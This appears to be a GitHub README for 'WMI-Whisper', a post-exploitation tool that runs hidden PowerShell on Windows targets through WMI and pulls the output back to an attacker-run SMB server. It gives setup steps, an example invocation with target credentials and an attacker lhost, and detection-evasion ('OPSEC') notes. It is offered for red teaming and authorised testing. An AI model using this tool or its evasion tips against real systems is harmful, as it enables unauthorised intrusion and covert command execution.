 # WMI-Whisper: Lightweight Post-Exploitation Framework (WMI + PowerShell + SMB)

A clean, minimal remote access toolkit leveraging native Windows features — WMI for code execution and authenticated SMB for output retrieval. Built for red teamers, researchers, and students.

> 🛡️ No dropped binaries, no `cmd.exe`, no noisy services — just pure tradecraft.

---

## ✨ Features
- ✔️ Executes commands remotely via `Win32_Process.Create`
- ✔️ Uses `powershell.exe -WindowStyle Hidden` 
- ✔️ Captures output via authenticated SMB share
- ✔️ Launches its own internal SMB server
- ✔️ No third-party payloads or shellcode
- ✔️ Compatible with modern Windows (10/11)

---

## 🧰 Requirements

- Python 3.8+
- Impacket (install from source or `pip`)
- Outbound SMB access (port 445) to your C2 box
- Valid credentials on the target system

---

## ⚙️ Setup

```bash
# Install system deps
sudo apt install python3 python3-pip -y

# Clone & install impacket
git clone https://github.com/fortra/impacket
cd impacket
pip install .
```

---

## 🚀 Usage

This section walks you through setting up the environment, installing dependencies, and running **WMIWhisper**.

---
### 🧱 Requirements 

Before running the tool, make sure the following are in place:

- 🐧 **Linux system** (tested on Kali Linux)
- 🐍 **Python 3.8+**
- 📡 Target Windows machine must:
  - Be accessible over the network
  - Allow WMI/DCOM traffic (port 135 + dynamic RPC)
  - Allow outbound SMB (port 445) to your attacker machine
  - Use credentials with **admin or WMI privileges**

---

### ⚙️ Environment Setup (First Time Only)

I highly recommend using a **Python virtual environment** to keep your system clean:

```bash
# 1. Update your system
sudo apt update

# 2. Install Python, pip, and venv
sudo apt install python3 python3-pip python3-venv -y

# 3. Create and activate a virtual environment
python3 -m venv ~/wmienv
source ~/wmienv/bin/activate

```

### 📦 Install Dependencies (Impacket)

```bash
# 4. Clone the Impacket repository
git clone https://github.com/fortra/impacket.git

# 5. Navigate into the Impacket directory
cd impacket

# 6. Install Impacket and all required packages
pip install .
```

### 📂 Confirm impacket-smbserver is Available
Check that the impacket-smbserver script was installed correctly:
```bash 
which impacket-smbserver
```
You should see a valid path (like `/usr/local/bin/impacket-smbserver`). If not, ensure you're inside the virtual environment and that installation completed successfully.

---

### 📥 Clone This Repository

Now that Impacket is installed, clone the WMIWhisper project:

```bash
# Go back to your workspace (outside impacket/)
cd ~
git clone https://github.com/DEKOKSS/WMI-Whisper
cd WMI-Whisper
```

### ▶️ Running the Tool
Inside the cloned project directory:
```bash
python3 whisper.py <TARGET_IP> <USERNAME> <PASSWORD> --domain <DOMAIN_NAME> --lhost <YOUR_KALI_IP>
```
| Arg      | Description                         |
| -------- | ----------------------------------- |
| TARGET   | Remote Windows IP                   |
| USERNAME | Admin or WMI-capable user           |
| PASSWORD | Account password                    |
| --domain | Domain (leave blank for local user) |
| --lhost  | Your IP for receiving output (SMB)  |

### 📝 Example
```bash
python3 whisper.py 192.168.0.152 adminuser P@ssw0rd123 --domain pentestlab.local --lhost 192.168.0.186
```
## 📂Output

- Logs are saved in: `/tmp/dropzone/`
- Each command generates: `result_<timestamp>.log`
- Output is pulled directly via SMB

## 🛡️OPSEC Notes

- No `cmd.exe /c` — common alert signature
- `powershell.exe -WindowStyle Hidden` used for execution
- SMB authentication avoids Windows 10/11 guest access blocks
- No on-disk payloads or artifacts

## 📸 DEMO
![GhostWMIC Demo](extra/whisper.gif)

## ✅ Legal & Ethics
This project is intended strictly for educational and authorized testing purposes.
Do not use it against systems you do not own or have explicit permission to test.


- Based on [Impacket](https://github.com/fortra/impacket)

- Built by a cybersecurity researcher and student



















